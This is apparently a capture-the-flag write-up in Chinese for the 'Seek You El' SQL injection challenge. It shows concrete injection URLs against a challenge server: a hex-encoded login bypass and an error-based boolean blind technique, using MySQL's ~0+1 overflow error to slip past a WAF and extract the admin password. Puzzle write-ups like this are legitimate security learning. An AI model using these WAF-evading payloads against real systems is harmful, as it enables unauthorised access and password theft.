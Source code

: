 # Seek You El

SQL Injection題

輸入的`pw`會直接拼在SQL Query上

`Query: select user from bsides where user='admin' and pw='{$_GET['_']}'`

然後背後有WAF，擋了不少東西，例如:`sleep`, `()`, `select`, ...

不過這題很坑的點是，他說`Login as admin to get the FLAG`

但可以輕鬆構造出: `http://35.232.184.83/?%5f='%20or%201=1%20and%20user=x'61646d696e'%23`

理論上就登入成功了

但啥鬼都沒噴出來，後來猜測可能還是要撈密碼

所以我後來就用 Error 去做 Boolean-based:

http://35.232.184.83/?%5f='or ~0%2b1%23 => error

http://35.232.184.83/?%5f='or ~0%2b0%23 => ok

(這是因為 MySQL 裡面，`~0+1`會噴錯)

後面就是用這種方式去暴力炸密碼了:

`http://35.232.184.83/?%5f='%20or%20user=x'61646d696e' and (~(ascii(mid(pw,1,1))>0)%2b1) %23`

`http://35.232.184.83/?%5f='%20or%20user=x'61646d696e' and (~(ascii(mid(pw,1,1))>100)%2b1) %23`

...

最後炸出來密碼是: `9f3b7c0e1a`

用這組密碼登入，就會噴flag了

![](https://github.com/w181496/CTF/blob/master/bsides_delphi_ctf_2019/SeekYouEl/seek.png)

